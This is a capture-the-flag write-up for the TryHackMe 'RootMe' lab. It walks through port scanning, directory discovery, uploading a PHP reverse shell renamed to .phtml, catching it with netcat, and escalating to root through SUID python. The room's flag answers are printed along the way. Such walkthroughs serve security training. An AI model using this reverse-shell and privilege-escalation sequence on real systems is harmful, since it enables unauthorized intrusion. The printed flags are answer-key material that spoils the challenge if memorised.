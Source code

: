 # Reconnaissance

### Scan the machine, how many ports are open?
```
┌──(root💀kali)-[~]
└─# nmap -Pn <machine ip>
...
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
...
```
> *Answer:* 2

### What version of Apache is running?
```
┌──(root💀kali)-[~]
└─# nmap -sV <machine ip>
...
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
...
```
> *Answer:* 2.4.29

### What service is running on port 22?
> *Answer:* ssh

### What is the hidden directory?
```
┌──(root💀kali)-[~]
└─# dirsearch -u "http://<machine ip>/"
...
[01:06:56] 200 -  732B  - /panel/
...
```
> *Answer:* 


<br><br>
# Getting a shell

### user.txt
```
┌──(root💀kali)-[~]
└─# curl https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php --output php-reverse-shell.php
```
To gain remote access to this machine, follow these steps:
  1. Edit the php-reverse-shell.php file and edit the ip to be your tun0 ip (you can get this by going to http://10.10.10.10 in the browser of your TryHackMe connected device).
  2. Rename this file to php-reverse-shell.phtml
  3. We're now going to listen to incoming connections using netcat. Run the following command: <b>nc -lvnp 1234</b>
  4. Upload your shell and navigate to <b>http://&lt;machine ip&gt;:3333/internal/uploads/php-reverse-shell.phtml&nbsp;</b> - This will execute your payload
  5. You should see a connection on your netcat session
```
┌──(root💀kali)-[~]
└─# nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.8.241.141] from (UNKNOWN) [10.10.39.82] 47886
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 18:16:30 up 17 min,  0 users,  load average: 0.00, 0.26, 0.58
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ find / -type f -name user.txt 2> /dev/null
/var/www/user.txt
$ cat /var/www/user.txt
THM{y0u_g0t_a_sh3ll}
```
> *Answer:* THM{y0u_g0t_a_sh3ll}


<br><br>
# Privilege escalation

### Search for files with SUID permission, which file is weird?
```
$ find / -perm -u=s -type f 2> /dev/null
...
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python
/usr/bin/at
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
...
```
> *Answer:* /usr/bin/python

### root.txt
[GTFOBins](https://gtfobins.github.io/)
```
$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
whoami
root
```

<h1 align="center">
  <img src="https://i2.wp.com/media4.giphy.com/media/mQG644PY8O7rG/giphy.gif" style="max-width:600px;">
</h1>

```
ls /root
root.txt
cat /root/root.txt
THM{pr1v1l3g3_3sc4l4t10n} 
```
> *Answer:* THM{pr1v1l3g3_3sc4l4t10n}


